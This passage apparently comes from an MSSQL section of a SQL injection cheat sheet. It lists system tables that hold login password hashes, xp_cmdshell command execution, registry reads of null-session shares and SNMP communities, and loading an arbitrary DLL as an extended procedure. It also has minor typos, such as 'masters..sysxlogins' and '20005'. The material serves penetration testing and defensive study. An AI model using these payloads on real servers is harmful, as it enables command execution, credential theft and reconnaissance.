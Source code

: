 -   Error Messages   
    `master..sysmessages`
-   Linked Servers   
    `master..sysservers`
-   Password (_2000 and 20005 both can be crackable, they use very similar hashing algorithm_ )   
    SQL Server 2000: `masters..sysxlogins`   
    SQL Server 2005 : `sys.sql_logins` 

#### More Stored Procedures for SQL Server (S)

1.  Cmd Execute (**xp\_cmdshell**)   
    exec master..xp\_cmdshell 'dir'
2.  Registry Stuff (**xp\_regread**)   
    1.  xp\_regaddmultistring
    2.  xp\_regdeletekey
    3.  xp\_regdeletevalue
    4.  xp\_regenumkeys
    5.  xp\_regenumvalues
    6.  xp\_regread
    7.  xp\_regremovemultistring
    8.  xp\_regwrite   
        exec xp\_regread HKEY\_LOCAL\_MACHINE, 'SYSTEM\\CurrentControlSet\\Services\\lanmanserver\\parameters', 'nullsessionshares'   
        exec xp\_regenumvalues HKEY\_LOCAL\_MACHINE, 'SYSTEM\\CurrentControlSet\\Services\\snmp\\parameters\\validcommunities'
3.  Managing Services (**xp\_servicecontrol**)
4.  Medias (**xp\_availablemedia**)
5.  ODBC Resources (**xp\_enumdsn**)
6.  Login mode (**xp\_loginconfig**)
7.  Creating Cab Files (**xp\_makecab**)
8.  Domain Enumeration (**xp\_ntsec\_enumdomains**)
9.  Process Killing (_need PID_) (**xp\_terminate\_process**)
10.  Add new procedure (_virtually you can execute whatever you want_)   
    sp\_addextendedproc 'xp\_webserver', 'c:\\temp\\x.dll'   
    exec xp\_webserver
11.  Write text file to a UNC or an internal path (sp\_makewebtask)

#### MSSQL Bulk Notes

`SELECT * FROM master..sysprocesses /*WHERE spid=@@SPID*/`

`DECLARE @result int; EXEC @result = xp_cmdshell 'dir *.exe';IF (@result = 0) SELECT 0 ELSE SELECT 1/0`

HOST\_NAME()   
IS\_MEMBER (Transact-SQL)    
IS\_SRVROLEMEMBER (Transact-SQL)    
OPENDATASOURCE (Transact-SQL)

INSERT tbl EXEC master..xp\_cmdshell OSQL /Q"DBCC SHOWCONTIG"

OPENROWSET (Transact-SQL)  - [http://msdn2.microsoft.com/en-us/library/ms190312.aspx](http://msdn2.microsoft.com/en-us/library/ms190312.aspx)
